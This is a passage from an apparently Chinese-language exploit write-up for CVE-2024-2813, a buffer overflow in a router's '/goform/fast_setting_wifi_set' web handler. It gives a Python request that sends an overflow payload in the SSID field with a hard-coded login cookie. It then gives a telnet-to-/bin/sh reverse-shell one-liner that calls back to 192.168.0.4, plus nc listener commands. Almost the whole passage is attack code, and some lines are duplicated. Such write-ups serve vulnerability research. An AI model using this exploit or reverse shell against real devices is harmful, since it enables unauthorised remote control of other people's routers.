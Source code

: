 ```python

url = f"http://{target_ip}/goform/fast_setting_wifi_set" 
cookie = {"cookie": "password=qpacvb"}
	
data = {"ssid": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
```

![image-20250227030555747](./assets/CVE-2024-2813缓冲区溢出/image-20250227030555747.png)

也可以弹一个shell，command：

```shell
telnet 192.168.0.4 4444 | /bin/sh | telnet 192.168.0.4 5555
nc -lp 4444
nc -lp 4444
```

一个nc负责输入，一个nc负责显示
